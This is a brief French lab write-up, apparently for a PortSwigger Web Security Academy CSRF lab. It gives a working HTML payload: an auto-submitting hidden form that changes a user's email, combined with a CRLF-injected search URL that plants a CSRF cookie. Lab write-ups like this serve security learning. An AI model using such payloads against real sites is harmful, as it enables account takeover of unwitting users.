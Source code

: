 # Lab

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

## Payload

Les recherches sont reflectées dans les cookies, ce qui eprmet d'injecter un `Set-Cookie` dans la réponse.

```html
<html>
    <body>
        <form action="https://0a69009f034958cf810f7f3300e100f3.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@sa.net" />
            <input type="hidden" name="csrf" value="c62C0rArmqFjNCxKJds5tiOPCNQ7ERLQ" />
        </form>
        <img src="https://0a69009f034958cf810f7f3300e100f3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=5WyeKfhqeNT7YI0SBCX4jWJX3yw4uPkv%3b" onerror="document.forms[0].submit()">
    </body>
</html>
```